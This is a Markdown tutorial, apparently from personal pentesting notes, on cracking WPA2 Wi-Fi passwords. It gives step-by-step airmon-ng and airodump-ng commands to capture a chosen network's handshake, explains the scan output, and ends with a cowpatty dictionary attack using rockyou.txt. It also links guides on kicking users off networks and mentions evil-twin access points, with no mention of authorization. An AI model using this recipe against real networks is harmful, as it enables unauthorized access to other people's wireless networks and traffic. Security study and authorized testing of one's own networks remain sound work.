 # Wifi


There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/


This is a great guide to the many different ways to hack wifi.
### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty
What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng
 - `airmon-ng start wlan0`
 - This puts the network card in monitoring mode.
 - This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air
 - Now we want to see what access points are available to us. 
 - `airodump-ng -i mon0`
 - This would output something like this:

`CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
`

So what is all this?
`BSSID` - This is the mac-address of the access point.
`PWR` - Signal strength. The higher (closer to 0) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.
`#Data` - The number of data-packets that has been sent.
`#/s` - Number of data-packets per second.
`CH` - Channel
`MB` - Maximum speed the AP can handle. 
`ENC` - Encryption type
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.
`PSK` - The authentication protocol used. One of MGT (WPA/WPA2 using a separate authentication server), SKA (shared key for WEP), PSK (pre-shared key for WPA/WPA2), or OPN (open for WEP).
`ESSID` - The name of the network

Then we have another section of information.
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “(not associated)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

3. Find the network you want to access.
 - `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
 - So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
We know that we have recorded a handshake when this appears
`CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

4. Crack the password.
- Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.
- `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`
Then we just hope for the best.


##More
Kicking other people off the network to capture handshakes faster:
http://www.aircrack-ng.org/doku.php?id=newbie_guide

http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html
http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/



